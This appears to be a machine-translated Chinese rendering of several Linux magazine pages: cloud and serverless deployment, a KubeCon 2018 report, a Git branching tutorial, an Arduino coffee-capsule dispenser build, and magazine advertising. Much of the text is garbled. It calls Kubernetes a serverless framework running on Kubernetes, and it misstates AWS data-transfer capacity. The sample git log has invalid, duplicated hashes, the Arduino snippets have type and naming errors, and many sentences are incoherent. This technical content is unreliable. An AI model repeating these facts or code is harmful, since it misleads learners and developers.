安全当然是公司关注的首要问题之一，特别是在欧盟《通用数据保护条例》（GDPR）带来的法规背景下。人们经常担心云会降低安全性，但实际上对于极少数情况以外，事实并非如此。使用公共云提供商让小型公司能够利用其提供商在安全方面的经验。

对于初接触云计算的人来说，一个共同的问题是成本管理——即你设置了计费和使用限制以防止超支，这意味着你可以保持控制。

## 云的强大之处：利用原生服务

当能够利用原本无法实现的服务时，云的使用变得强大。

除了容器之外，数据迁移还有许多选项，例如自动构建与本地服务器同步的云数据库，或者迁移服务器本身。如果你有真正海量的数据，Amazon AWS Snowball 将把你的数据载入一个集装箱（高达 100 petabytes），然后将其运回。

迁移改变了架构，并且通常提供大量的主机来管理加密、密钥、网络和与安全相关的需求。配置管理非常直观，可以轮转 VPC（虚拟私有云），这意味着你的基础设施将与他人以及互联网隔离，直到你开放网络。安全性在云端也经过了精心构建，使得配置和审计谁拥有访问权限以及在什么级别变得非常简单。

在这一点上，我们考虑了云为如今的本地基础设施带来了什么。但当你利用那些原本无法实现的服务时，云的使用变得强大。一个例子是对存储在对象存储（“数据湖”）中的海量数据进行分析。提供的工具可以使用 SQL 查询数据，就像使用数据库一样，并展示结果视图。还可以应用额外的 AI 处理用于自然语言理解、趋势分析等。

公共云对所有人来说并不是完美的，但对于大多数人来说，与本地相比，它提供了额外的收益。




## DigitalOcean Droplet 部署

### 选择额外选项

DigitalOcean 支持八个区域，每个区域都有多个可用区。选择你想要启动 droplet 的地方、上传代码、登录并选择额外选项。

按下创建按钮后，你的新 droplet 将创建，这只需要几秒钟。droplet 将分配一个 IP 地址，你将可以使用 SSH 或直接在浏览器中连接。一个“浮动”IP 地址可以在 droplet 之间移动。

额外的卷（块存储）可以附加到你的 droplet，droplet 可以调整大小，并设置防火墙来限制访问。如果你想在 droplet 之间路由流量，还可以添加负载均衡器。使用“快照”功能拍摄快照。

www.linuxuk.com 23

## 边缘计算与无服务器架构

### 在边缘尝试无服务器

AWS CloudFront 上的 Lambda 和 Cloudflare。在 Cloudflare 平台上的工作允许你将在代码到达核心基础设施之前编写代码。

### 在云中部署代码无需担心实例

开发者想要编写代码。他们不想花时间在服务器上。这就是无服务器运动之所以爆发的两个原因，特别是在过去的一年里。首先要理解无服务器当然不仅仅是关于把代码放在某处——而是通过无服务器，开发者不需要担心这些事情。容量由云提供商根据需要自动管理。

#### 创建一个 Google Cloud Function

无服务器的革命真正始于 AWS Lambda 的发布，它创造了“FaaS”这一术语。很快，其他提供商也推出了类似的服务，包括 Microsoft Azure Functions 和 Google Cloud Functions。虽然无服务器的卖点是让它快速从开发移动到部署，而无需配置、维护和维护扩展性；如果你需要运行数千个并发无服务器函数，云提供商提供按秒付费计费；你只需为代码运行的时间付费。简而言之，无服务器赋予了你终极灵活性。

Google Cloud Platform 首次提供了一个易于使用的界面来创建 Cloud Functions。通过你的账户提供的控制台、提供的 HTTP 终点的 URI、用于代码的内联编辑器还具有超时和内存要求的设置。在指定了提供的节点的入口点后，只需创建一个函数就是一个关于无服务器有多强大的绝佳演示——用最少的精力完成一个完整的（测试版）高成本部署！

需要注意的是，使用无服务器也有缺点。虽然函数执行速度非常快，但在初始启动时存在延迟，因为服务器在不使用时会“关机”。

所有用例，但它是一个需要考虑的问题。无服务器函数非常适合完成时间非常短且不是资源密集型的操作。对于长时间执行和内存限制（如果负载是长时间运行的可能会失败），传统的服务器模型可能更合适。调试和监控可能比无服务器环境更困难。因为代码在云的“黑盒”中执行，诸如 AWS X-Ray 等工具变得比以往任何时候都更重要。

### 安装并尝试 Serverless 框架


```bash
$ npm install -g serverless
serverless create hello-world
serverless deploy
```

1. **全局安装 serverless**

在你的机器上安装 serverless 框架，你需要安装 npm（Node.js 的一部分）。使用 `node -v` 确保你已经安装了 Node，并使用命令 `npm install serverless -g` 确保你已经安装了 npm。

2. **登录你的账户**

框架安装后，你需要对 serverless 在线平台进行身份验证，以允许部署你的应用程序。在网页浏览器中使用 GitHub 凭据使用 `serverless login` 命令。

3. **创建无服务器函数**

过程的下一步是创建无服务器函数本身。使用命令 `serverless create --hello-world` 创建基础函数。包含了一些模板供你使用；使用 `serverless create --help` 列出它们。

如果你决定尝试无服务器，你会发现最大的挑战之一是——正如迁移到云时通常的情况一样——每个提供者的做法都略有不同，使得在通用提供商中开发变得困难。为了让生活更轻松，有很多框架可以对无服务器开发过程进行抽象。最著名的是名为 Serverless 的工具包——但在你尝试之前你不知道。所有领先的提供者（IBM OpenWhisk 等）都支持。

事件是无服务器代码的关键。无服务器函数由事件触发。serverless 框架还包含一个事件网关，允许函数对任何事件做出反应。云提供了一种挂接到 HTTP 终点的通用方法，同时有很多事件选项，包括响应云提供商发生的事件，甚至是由外部源触发的事件。

虽然“无服务器”通常指函数，但也有无服务器数据库选项，它们可以根据你的应用程序需求自动扩展、启动、关闭并增加容量。Amazon Aurora、Google Cloud Datastore 是无服务器数据库的示例。

## 无服务器函数的性能考量

虽然无服务器函数执行速度很快，但启动时存在延迟。

AWS Lambda 函数基础控制台页面位于 `http://bit.ly/lyl-lambda-brief-introduction`，通过带有“hello world”项目的无服务器函数来开始。

你可以每月使用 AWS 免费层级多达 3200 万秒的计算时间，每月最多发起 1,000,000 次请求。

可扩展插件允许在 Node.js、Java、Scala 和 CLI 中开发，允许直接从 CLI 部署到云提供商。它是基于 CLI 的——这是我们喜欢的。serverless 框架还支持 Kubernetes。Kubernetes 是一个原生无服务器框架，允许你部署函数，就像你使用托管云一样。Kubernetes 运行在 Kubernetes 集群之上，并且因为它被 serverless 框架有效抽象，它从部署视角来看具有有趣的语言支持，支持 Python、Node.js、Ruby、PHP 和自定义运行时，甚至支持 Kafka 和 HTTP。


```bash
serverless create hello-world
serverless deploy hello-world
serverless deploy
serverless remove hello-world
serverless remove hello-world
serverless invoke hello-world
```



就是这样！确保你的 AWS 密钥设置在环境变量中，你就可以使用 `serverless deploy` 命令进行部署，你通过函数 URL 完成部署。你可以在所选提供商的控制台中测试它。

在你无服务器函数的控制台中，你可以测试部署函数。由于你部署到了 AWS，你的函数将通过 API Gateway 可用，这包含了测试的 lambda。

我们通过事件移动无服务器函数。你的新函数也可以轻松链接到其他事件列表，包括 CloudWatch 事件（例如存储桶添加/删除），你甚至可以从 Lambda 事件触发它！

## 迁移策略：从虚拟化到私有云/混合云

在迁移到私有云解决方案之前进行虚拟化迁移，可以通过提前在您的本地中心切换到虚拟化环境来使迁移过程更加顺畅。

利用云计算的优势，同时通过私有云保持对基础设施的控制。

云计算是近年来 IT 领域的增长故事。它通过允许资源在许多企业之间共享，彻底改变了服务的提供方式；但由于对安全和整体控制的担忧，人们对于采用该技术的意愿较低。

云方法旨在通过使用专用硬件来解决这些疑虑，而不是将数据存储在第三方提供者的内部并与许多公司的系统共享；这意味着您可以指着建筑中的机架并说：“这里是我们的数据。”并了解当硬件由自己拥有或管理时，云计算原则是如何适用的。

起初，私有云看起来并不像传统的本地数据中心。区别在于虚拟化、工具以及用于创建灵活基础设施的自动化配置和扩展，就像您在公有云中做的那样。需要注意的是，私有云并不一定采用与公有云类似的模型构建，并托管在私有数据中心或托管设施中，其区别在于整个系统是单租户的——也就是说，不与其他共享。私有云通常对于较大的企业是可行的，如果对硬件可用容量之外需要额外容量，可以轻松添加，且该中心由单一客户覆盖。借此，公有云技术的优势之一是它允许具有低成本系统的初创企业快速增长，以满足高端业务市场的需求。

所有云平台都支持所有主流操作系统和应用程序。在初始设置完成后，不需要对基础设施进行改造，因为目标服务器会保持最新状态，且您可以根据自己的时间进行迁移。该过程不需要重启，不影响性能，且不需要停机。Google 提供了编排作为混合模型的一部分，针对灾难恢复场景。它可以管理整个过程，虽然 Google CloudEndure 是一个付费产品，但当用于迁移到如 Google Cloud Platform 等公有云合作伙伴时，该服务是免费的。

您可以使用指定的服务工具之一免费将虚拟机迁移到 Google Cloud。了解更多。

| Google Cloud | Velostrata |
| :--- | :--- |
| CloudEndure | 使用托管迁移服务从云和本地导入。 |
| | 使用具有额外功能和灵活性的从 VMware 和 AWS 实例导入。 |

您已使用 Google Cloud Platform 完成了迁移。（需要一个实例）。

上方：Google CloudEndure 提供了一种从本地到云的无缝迁移方法，并带有持续同步。

## 构建您自己的 OpenCloud

上方：Conjure 是一个很棒的工具，为安装 OpenStack 提供了分步的界面。

此外惠普（HPE）也提供了解决方案选项。IBM 等提供了公有云市场中的一系列关键参与者，微软最初拥有一个公有云市场。Azure 允许企业复制公有云体验，但公有（或混合）云在部署方面具有自由度，无论托管模型如何，构建应用所需的工具。管理 Azure 公有云的相同门户也用于管理私有云，微软拥有出色的云支持，包括服务器的广泛选项。我们可以管理存储、内存等。

有一家公司在云部署中起着巨大作用，Linux 用户对此熟悉，即 Ubuntu。Ubuntu 是 OpenStack 使用最广泛的发行版，也是公有云和私有云的首选平台。Canonical 的服务提供了多种快速构建私有云的方法。借此，公司可以根据需求设计、构建和运行带有培训和控制的 OpenStack 云。

私有云不必租赁并托管在数据中心或托管设施中，其工作方式是 VMware 仍然是云实施的领导者，通过其合作伙伴交付。安装后，使用适当的工具进行虚拟化，该工具的可用性是有限的，并且很容易在实例之间切换。对数据库的需求很高，在其他时候可能委托 Red Hat 提供商，以 Red Hat Cloud Suite 的形式提供云服务。部署私有云所需的所有内容，包括开源、虚拟化工具、云平台、云互操作性基础设施和托管服务。

在规划迁移时需要记住的关键点是从小开始。全面迁移将是一项艰巨的任务，虽然有些组织选择一次性迁移所有内容，但一次迁移一个工作负载可能会更容易，公司做出的一个关键决策是现代化遗留应用程序的机会。

用于私有云的许多方法也适用于混合模型，且混合云并不是互斥的。有了正确的编排，没有理由您的云不能是本地、私有和公有云的混合体。编排工具提供了混合云解决方案的解决方案。

## 广告与推广内容（原文保留）

从 50 英镑到数千英镑，改变生活的热门单品

从 50 英镑到数千英镑，改变生活的热门单品

使用索尼 XQ90 电视呈现正宗的世界杯

高分辨率 VR 将令你大开眼界

PLUS！


可在 WHSmith、myfavouritemagazines.co.uk 购买，或直接在您设备的 App Store 中搜索“T3”

www.myfavouritemagazines.co.uk/T3




### 仅需 32 英镑

**6个月纸质订阅**

- 相比封面价享受巨大优惠

### 仅需 47 英镑

**6个月纸质+数字组合订阅**

- 永不错过任何一期 · 送货上门
- 在数字设备上即时访问

## Juice Bar 蓝牙扬声器

动力与便携的完美结合


### 音乐随行

### 更久持久的播放

巨大的 1,500mAh 电池意味着您的音乐单次充电后可连续播放八 小时

### 超便携

所有这一切都包含在一个 151x60x50mm 的紧凑包装中，可以完美放入方便的提包里，让您可以随处随带


www.myfavouritemagazines.co.uk/ludjuicebar

## 或拨打 0344 848 2852

> 致电时输入代码：LUJUICEBAR


* 此优惠仅适用于英国新订阅者。礼物视供应情况而定。请预留最多 60 天的时间送达您的礼物。若库存售罄，我们保留用同等价值物品更换的权利。价格和优惠是根据建议价格购买得出的。在 14 天取消期后，除非特殊情况，否则付款不予退还。英国拨打费用与其他标准固定电话（以 01 或 02 开头）相同，或包含在您的手机套餐提供的任何包含或免费额度中。有关完整条款和条件请访问 `www.bit.ly/magazines`。优惠于 21/06 结束。


# 云原生计算的兴起

**Chris Thornett 前往 KubeCon，寻找致力于为开发者构建敏捷且可扩展的开源云平台的社区**

- KubeCon + CloudNativeCon Europe 2018 是云原生计算基金会（CNCF）的旗舰会议，汇聚了来自开源和云原生社区的采用者和技术人员，举办为期四天的活动。

云原生计算基金会今年的首场 KubeCon+CloudNativeCon 在哥本哈根的贝拉举行，这是一个由玻璃制的光容器和冒烟管道构建而成的宏大盛宴。自 2013 年以来，由于游客取得了卓越的容器成功，这一设定已迅速演变。

CNCF 技术监督委员会主席 Alexis Richardson 的主旨演讲聚焦于未来，他认为未来将充满开发者。在演讲中，他预计来自云端的开发者数量将达到 1 亿。

根据 CNCF 执行董事 Dan Kohn 的说法，本次参会人数已达到 4,300 人，这一数字正在增长，但这并不意外，因为云原生计算行业正在满足世界对在分布式环境中跨多个位置运行的更多平台的需求。

预计我们将在云端和设备上看到无处不在的服务。CNCF 和社区的愿景是构建所有基础层，为开发者创建一个开源云平台，让他们能够简单地大规模运行代码。

CNCF 的成立是为了孵化“构建区块”，以实现开源云生态系统的成功。您可以在景观图（`https://landscape.cncf.io/`）中看到所有项目，近年来第三方技术呈爆炸式增长。

云原生行业令人印象深刻的是，从大约四年前开始，它已经非常接近一个需要向世界共享的开源云平台。虽然它尚未完全实现，还需要几个层，但得益于早期采用者的远见并建立了 CNCF。

# 特别报告：KubeCon


## 什么是无服务器（Serverless）？

无服务器本质上包含两个点：函数和基本逻辑：即事件在不断发生，且万物皆事件；例如，当你向云端的 S3 存储桶上传文件时。这些事件对你来说是需要反应的，因为你不希望有像微服务这样的东西在后台空闲并产生费用。这就是无服务器事件驱动架构可以取代微服务的某些方面，它可以在云端中快速接收事件。

Google 的倡导者 Kelsey Hightower 曾认为现在发明这种事件驱动架构还稍早了些。他认为，通过构建像 Event Gateway（`https://server.com/event-gateway`）这样的事件驱动源代理，并使用 CloudEvents（`https://events.io`），可以使无服务器事件民主化，这样他们就可以构建任何你需要的系统而不仅仅是云端。

此外，为了显示分会之间的间隔，活动提供了充足的空间让大家聚在一起解决大规模容器管理问题，但它仍然需要与网络、存储和安全等服务集成，以提供全面的容器基础设施。CNCF 的技术指导委员会（TOC）表示，优先事项是更好的接口和更易用的开发者。

对运行时的一个主要关注点是 `Helm`，一个包管理器。该项目帮助开发者简化在 Kubernetes 中运行应用程序和服务。`Helm` 使用 `Chart` 格式（Chart Format），该格式包含了运行特定应用程序或服务所需的 Kubernetes 容器的细节集合。

在接口方面，CNCF 专注于为消费者创建一个使用的开放标准，这邀请了来自 `Prometheus`（一个开源监控系统）的 `OpenMetrics`。Richardson 表示，他们希望扩展来自 `Prometheus` 且用于“标准化”的格式，以便人们也能将其应用于其他项目。


## 跟进事件

此外，CNCF 正在通过创建一个名为 `CloudEvents` 的通用规范，来对事件描述的方式进行标准化（顺便提一下，这之前被称为 `OpenEvents`（`https://events.io`））。这很重要，因为它们为双方开发者提供了一种谈论事件的共同方式，包括自动测试和面向客户的客户端的新案例，例如创建新账户。

上图中，Google 的 Kelsey Hightower 演示了无服务器在云端的应用范围。不出意外，无服务器是一个热点。Richardson 强调了几个基金会项目：

- `SPIFFE`：它为不可信的网络提供身份验证和端到端加密。
- `Open Policy Agent (OPA)`：处理策略和授权。

除了目前基础设施和安全的优先事项外，Red Hat 的 CTO Brandon Pound 正开始针对新兴技术构建内容，以使这些公司的云实例能够实现此操作。在另一种方法上，Google 的 Craig Cox 宣布容器将开源 `gVisor`，这是一种用于异构环境（CPU 和 GPU）和不常用工作负载的沙箱。这种新型容器似乎旨在在操作系统和应用程序之间提供一个安全的边界。`gVisor` 在运行时作为客体内核拦截系统调用。他在一个易受 Dirty CoW 漏洞攻击的虚拟机上演示了这一点。



## 问答

Ballerina 后盾公司 WSO 的 CEO Tyler Jewell


### Ballerina 的目标是什么？

如果你做过集成项目并且是大规模执行的，那么就存在一个集成鸿沟——这对于开发者来说非常沮丧。你有两个选择：你可以使用企业服务总线（ESB），它充当中间件路由器，使得大规模集成成为可能，但开发者体验非常糟糕。然而，如果你这样做，你就必须找到并配置这些到其他系统的连接器。实际逻辑是，你通常编写代码和 XML 的组合，这可以奏通，但并不灵活。

另一边，你有像 Java 或 JavaScript 这样的纯编程语言。你可以应用像 Spring 或 Node 这样的框架。它们很灵活，但它们没有内置集成功能——集成语法是 `Ballerina` 负责负责的。`Ballerina` 是我们解决这一鸿沟的方法。它是一种编程语言，基本上可以让你轻松地编写你想要部署为微服务的集成服务。然后，微服务就可以与它需要集成的许多其他事物进行集成。

### 它如何与周围的所有其他技术相匹配？

关于 Kubernetes 的有一点是，随着它的流行程度增加，它鼓励开发者创建更多的服务。服务越多，架构就越复杂。随着集成速率的增加，你从需要管理的 10 个服务变为 100 个、1000 个、2000 个。

然后你还面临着集成问题。`Ballerina` 越成功，它面临的集成问题就越多，因为我们希望能够轻松写出一个利用所有这些问题的程序。我们看到 `Ballerina` 可能会成为胶水，用于解决 ESB 已经解决的历史问题，以及未来甚至尚未出现的问题。我们认为它对于此也非常合适。

链接：`http://bit.ly/ballerina`


# 基础 Linux

## Git：版本控制与分支工作

了解如何在 Git 中进行分支工作，并学习如何对真实项目进行更改。

Git 的主要目的是对项目进行协作，特别是开源项目。Git 允许协作者同时在同一个分支上工作，这可能需要一些精力来协调更改。然而，Git 的强大在于你可以在不影响他人的情况下工作。为了做到这一点，跟踪不同人的更改是有意义的，这样你就可以查看已更改并做出新的更改。

这就是分支大显用场。分支是从主分支（`master branch`）分出的特定工作流。你可以做出更改并将其合并回主分支，但它们仍然保留在存储中，因此你以后可以查看。

### 检出分支

在本教程中，我们将处理 Git 自身的源代码。Git 的代码托管在 GitHub 上的 `https://github.com/git`，因此为了获取存储库的副本，我们将运行 `pull` 命令。

```bash
$ git clone https://github.com/git
```

这创建了一个目录，其中包含了源代码，现在我们将探索其中的内容。

```bash
$ cd git
$ ls | wc -l
395
```

我们在上一个问题中所做的更改都是相同的且是增量的，它们在之前工作的基础上进行构建的。Git 实际上支持一个更改树。如果我们回到仓库的某个版本，然后创建新的提交（`commits`），我们就会创建了一个新分支。

首先，让我们回到过去。运行以下命令将代码重置到我们之前查看的 1.9.2 版本。

```bash
$ git checkout v1.9.2
```

在这里，`v1.9.2` 是一个分支名称。每一个提交（`commit`）都有其自己的标识符，这通常是一个复杂的哈希值。当我们需要一个仓库时，运行 `git checkout -b new-name` 来创建一个新分支。每当我们为新发布版本创建分支时，Git 就会生成历史，而 `v1.9.2` 就是对应该发布版本的分支名称。

如果我们现在有一个分叉节点（fork node），我们可以看到它的内容已经发生了变化。1.9.2 版本非常旧，它缺少了当前版本的一些功能。

通过探索代码，我们发现缺少了一些东西：当 Git 应该向用户提供友好信息时，它并没有提供。因此，我们将在编辑器中修复 `git.c` 文件，并在第 555 行（目前为空）处添加以下代码。

```c
printf("the amazing Git version control system!\n");
```

我们不会编译这段代码，所以不用担心正确性。现在我们已经做了一个更改，让我们用 `git commit -a` 来提交它，这会将所有修改的文件添加到提交中。

注意，我们对 Git 的旧版本进行了更改，这次提交并不属于项目线性开发（`master` 分支）的一部分，而是在单独的分支上。我们可以运行以下命令清楚地看到这一点：

```bash
$ git log --graph --all
```

该命令将产生一个与图 1 所示类似的图。图中的每个星号 `*` 对应一个提交，垂直线显示了哪些提交是其他的修改。在我们的情况下，由于最近的提交是对以下内容的修改：

#### 图 1

```
* f5cb2276 use check-notify to update cached relative path
* a8d7778e check out master-commit hash
* d2c4f13d check author ID
* b6a5a1c2 setup set key
* 7e9d8f1 report functions output
* c36b47a2 merged branch 'git/fixgable-issue' into pu
* 89c9e10 merge commit(master) to locked functions
* a2e8f7c add members to struct object
* 55a1f2b clarify the size field in struct object
* size field in object 
* 0c7f47de clarify the size of object
* 4b2c3d1 clarify the size field is struct object
* 2a3b4c5
* 9a6b7c8d move in out of struct object
* 3e4d5c6 move in out of struct object
* 1f2e3d4
* 4a5b6c7 move in out of struct object
* 7f7b8a9 use bitfield for object,etc.;state
* d1e2f3g4 turn type and, in, type in structs
```

在 `git log` 中，垂直线显示在左侧。如果我们现在向下滚动，最终将看到它是如何连接到树的。每一行代表发布版本 1.9.2 的分支。你可以按 `n` 查看该字符串的下一次出现。要关闭视图，请按 `q`。

> 分支是一个脱离主分支 'master' 的特定工作流

我们目前处于“游离的头指针”（DETACHED HEAD）模式。这意味着我们的提交不是 `master` 分支：如果我们用 `git checkout` 切换回 `master` 分支，将没有对此提交的引用，并且无法再次访问它（垃圾回收器最终会移除它）。由于我们以后想回到这个提交，请使用以下命令将其转换为分支：

```bash
$ git checkout -b friendly-git
Switched to branch 'friendly-git'
```

这一切仅仅是为我们当前所处的提交提供了一个名称。现在既然我们选择了 `friendly-git`，我们就可以在两个版本之间自由切换。

```bash
$ git checkout 'master'
Switched to branch 'master'
Your branch is out to date with 'origin/master'

$ git checkout friendly-git
Switched to branch 'friendly-git'
```

### 关于 git log

`git` 是一个非常有用的命令，可以图形化地查看仓库历史。在终端中，你将通过 `-graph` 标志看到 `git` 如何图形化地显示提交之间的关系。如果我们只想查看当前分支的提交，可以使用 `--all` 标志，它会将当前分支的所有提交在单行内显示得尽可能紧凑。

www.linuxuser.com 37

## Linux 基础

我们对 Git 的旧版本 1.9.2 进行了更改。欢迎消息在 Git 的任何版本中都有用，我们应该将更改移动到 `master` 分支，这样使用最新版本的用户就能受益。我们可以运行已经遇到过的 `git merge` 命令，输入两个分支的名称来连接。

### 使用 stash

让我们尝试另一种场景，首先，运行 `git checkout v1.9.2` 切换到 1.9.2 版本。

# Arduino 教程：咖啡胶囊机

## Arduino：制作你自己的咖啡胶囊分配器

在编写了 Arduino 和 Pi 的程序来识别用户之后，是时候构建机器了。

上上次，我们的目标是构建一台由 Arduino 驱动的咖啡胶囊分配机。在教程的部分中，我们将使用 Arduino 从 RFID 卡读取信息，然后将数据传递给树莓派，以便进行身份识别。如果用户的账户余额充足，树莓派将发送一条返回消息，告诉 Arduino 释放咖啡胶囊。

我们选择的设计是重力辅助旋转式分配器；咖啡胶囊会掉落一个孔洞，然后进入一个旋转 360 度的仓，随着仓的旋转排出咖啡胶。这里的关键特性是仓的体积足够容纳一个胶囊，因此其他胶囊必须等待而不能释放。机器将在旋转 180 度后释放出一个咖啡胶囊。


完成后的咖啡机可以使用 USB 电源适配器供电。

### 构建仓体

这种机制为我们提供了关于如何构建机器的大量信息。咖啡胶囊必须在容器内相对于机器的其他部分分离。容器应该有一个倾斜的底部，并在最低点有一个单孔。它必须能够旋转并牢固地固定在一个可以接住掉落胶囊的底座或平台上。底部必须用螺钉固定在侧面。完成这些后，就可以开始设计和组装了。要制作这个仓，你只需要一个至少有一个平底的圆形物体。在教程中，我们使用了任何空罐的底部，它的长度大约一个手指长，很容易填满。使用金属而不是纸板各有优缺点。虽然使用纸板，它运行得也良好。

一旦你将罐子切成两半，你需要在侧面再开一个咖啡胶囊孔（即胶囊卡住的地方）。然后把手伸进去把胶囊向外推。这将有助于我们与电机连接。用锯子在罐子中心锯出一个小洞。这个洞必须比电机轴小，这样轴就可以穿过去——稍后用螺丝固定在位置。连接不是通过木块完成的，而是我们将胶囊入口插入到到位。连接处很松动，与电机的连接也是松的。为了让咖啡胶囊孔在底座中到位，并在旋转后没有空间容纳另一个胶囊。

### 连接电机

为了旋转罐子，你需要一个电机。在教程中，我们使用步进电机来旋转安装在上面的手臂。步进电机允许我们控制电机旋转的速度以及


左：楔形紧密地固在罐内，并应从胶囊入口连接。在教程中，我们将使用步进电机（BYJ-48）为每个胶囊需求旋转一次。使用我们的 Arduino 设置和程序作为教程的一部分，我们将电机连接到驱动器。电路处理脉冲的转换，使其开启和关闭以提供平稳旋转。电机上的四个端子连接到 Arduino 上对应的四个端子。


与电机一起工作时，你的电机取决于你选择什么。如果有轴，连接组件非常容易，如果操作正确，你需要在机器上提供负载支撑。驱动器可以由 `Arduino` 供电。打开 `Arduino IDE`。打开程序。在程序的顶部，添加一行来包含步进电机库：

```cpp
#include <Stepper.h>
```

并初始化步进电机对象，传递引脚和一个定义电机必须旋转次数的常量：

```cpp
const stepsPerRev = 2048;
Stepper MyMotor(stepsPerRev, 44, 42, 45, 43);
```

然后你指定旋转速度：

- 不使用面包板

测试通常使用面包板进行，但在这种情况下没有灵活性。使用跳线代替排针是最简单的解决方案。然而，你应该考虑直接连接到 `Arduino` 和外部硬件。

在底部，`Arduino` 正在等待树莓派的肯定响应，告知它可以分配胶囊。如果收到任何“ok”信号，电机旋转 360 度：

```cpp
myMotor.step(RPM);
```

现在，当你在读取器前使用 `RFID` 卡时，罐子将旋转整圈。这是胶囊掉入和离开容器的时候。你可能需要加大孔或改变边缘尺寸。这把篮变成了箱状。修剪纸的顶部以减少篮的高度，然后用胶水或胶带将其粘在框架前面。篮的底部应与框架前面的开口对齐（或略低于开口）。

## 安装电机

在篮子之后，你还需要安装电机和旋转机构。这是一项相当困难的任务。电机位于罐子背面，明显比手柄重得多，因此你需要使用一些纸板将电机直接固定在篮子上方，并可能需要额外的支撑来平衡。

## 创建篮子

现在你已经构造了一种利用重力分配咖啡的方法，现在是接住掉落胶囊的时候了。显而易见的方法是在容器底部建立一个滑道，胶囊可以掉进去。然而，如果你的结构很糟糕，胶囊会掉出容器。如果你运气好，这会更容易且完全位于机器内部。

制作这一切的有效方法是使用纸板。篮子的框架可以牢固地安装在电机轴上——如果你有框架材料，完全这样做。纸板很坚固，但如果没有良好的工艺可能会不稳定。然而，你需要内部元件来固定连接。断开读取器的 `Arduino`——你将使用相同的引脚将其接回来。使用螺丝在纸板上钻孔，留出直径三分之二的间隙。将螺丝穿过孔并固定在位。如果罐子开始滑动，在下方增加两个以固定罐子。

> 跨距离与卡通信，通过纸板和塑料


因此，更可靠的方法是使用比罐子宽得多的篮子。在这个过程中，胶囊会轻轻地将胶囊推向机器前方。要这样做，你只需要使用一段厚纸，或者在纸的边缘切出一个弧形边缘。曲线应该是凸的，滑道向长边凹入纸中，沿着纸的宽度进行切割。

沿弧形边缘定期切开小切口，瓣片应与纸成 90 度折叠。当你将纸向上折叠直到两端对齐时（保持瓣片向下成 90 度），纸应该形成一个半篮形状。篮的高度取决于纸的长度，这取决于切割的程度和由切割控制的深度。为了获得更尖锐的着陆，你可以在弧形边缘上距离旋转中心相等的两个点处切割，并保留中间部分之前

右电机和仓需要固定在位

42

## 编写 LCD 程序

此时，你的分发机制应该已经基本完成，并且在机器中间的一列上运行。现在是时候添加用户反馈和输入了。机器应该能够告诉用户机器的状态，例如登录是否成功。你可以通过 `LCD` 显示器轻松地实现这一点。

在 `Arduino Sketch` 代码中，在代码顶部添加一行来访问 `LCD` 库，并添加另一行来初始化 `LCD` 对象：

```cpp
#include <LiquidCrystal.h>
LiquidCrystal lcd(RS, E, D5, D6, D7, D8);
```

在上面的代码段中，连接需要连接到 `Arduino` 数字引脚的 `LCD`。`RW`（读/写）、`VO`（对比度）和 `VSS`（地）应连接到 `GND`，而 `VDD`（5V）应连接到处于高电平的数字引脚（`SPI` 引脚已被电机占用）。

在 `setup()` 函数中，你必须初始化 `LCD` 并设置显示器的列数和行数：

```cpp
lcd.begin(cols, rows);
```

在 `loop()` 的最顶部，当 `Arduino` 正在等待读取 `RFID` 卡时，你可以向显示器写入消息，告诉用户机器正在使用中。将光标设置为你想要的位置并向其写入字符串：

```cpp
lcd.setCursor(col, row);
lcd.print("Ready to read");
```

在 `loop()` 的其余部分，你可以添加显示用户账户余额的消息（如果由 `RaspiPay` 提供），或者消息“硬币不足。不允许继续制作咖啡”。

## 安装显示器

编写好 `LCD` 后，是时候将其安装到机器上了。考虑到可能出现的情况，在背部设计一个维修门可能是一个好主意。你还需要留出访问或更换备件的方法。

这一点现在非常相关，因为你需要在框架的侧面开一个洞。使用 `LCD` 刀和两个螺丝，在盒子的前端切出一个与 `LCD` 显示器宽度完全相同但略小的孔。孔应该位于中间列的侧面或下方。然后，你应该能够将屏幕放置在框架之外。`LCD` 安装的电路板，使用胶带将其固定在内部并压在框架上。确保它固定在位置——直到足够牢固。由于你使用的是 `Arduino`，`LCD` 连接到相应的数字引脚。

`RFID` 读器可以放置在距离外壳表面 5cm 处。

## 添加读卡器

